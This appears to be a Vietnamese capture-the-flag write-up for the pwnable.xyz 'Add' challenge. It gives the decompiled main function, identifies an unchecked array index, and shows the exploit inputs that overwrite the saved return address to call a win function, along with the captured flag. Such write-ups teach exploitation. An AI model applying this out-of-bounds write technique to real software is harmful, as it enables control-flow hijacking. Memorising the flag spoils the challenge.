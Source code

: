 # Pwnable.xyz Add
## Analysis
Ch&#432;&#417;ng tr&#236;nh mu&#7889;n ta nh&#7853;p 3 s&#7889, sau &#273;&#243; l&#432;u v&#224;o v&#7883; tr&#237; t&#432;&#417;ng &#7913;ng trong m&#7843;ng local_68:
```
undefined8 main(void)
{
  int iVar1;
  long lVar2;
  long *plVar3;
  long in_FS_OFFSET;
  byte bVar4;
  long local_80;
  long local_78;
  long local_70;
  long local_68 [11];
  long local_10;
  
  bVar4 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  while( true ) {
    local_80 = 0;
    local_78 = 0;
    local_70 = 0;
    plVar3 = local_68;
    for (lVar2 = 10; lVar2 != 0; lVar2 = lVar2 + -1) {
      *plVar3 = 0;
      plVar3 = plVar3 + (ulong)bVar4 * -2 + 1;
    }
    printf("Input: ");
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_80,&local_78,&local_70);
    if (iVar1 != 3) break;
    local_68[local_70] = local_78 + local_80;
    printf("Result: %ld",local_68[local_70]);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
&#272;&#7891;ng th&#7901;i c&#361;ng c&#243; h&#224;m win c&#243; ch&#7913;c n&#259;ng in flag  
D&#7877; th&#7845;y khi l&#432;u t&#7893;ng v&#224;o m&#7843;ng, ch&#432;&#417;ng tr&#236;nh kh&#244;ng ki&#7875;m tra ch&#7881; m&#7909;c c&#243; th&#7887;a m&#227;n k&#237;ch th&#432;&#7899;c m&#7843;ng hay kh&#244;ng
## Solution
Ghi &#273;&#232; save rip &#273;&#7875; chuy&#7875;n h&#432;&#7899;ng th&#7921;c thi v&#7873; h&#224;m win:  
```
Input: 2098202 2098202 13
Result: 4196404Input: 2098193 2098193 14
Result: 4196386Input: a
FLAG{easy_00b_write}
```
Ch&#250; &#253; c&#7847;n th&#234;m ret gadget &#273;&#7875; tr&#225;nh stack alignment
## Flag
```
FLAG{easy_00b_write}
```
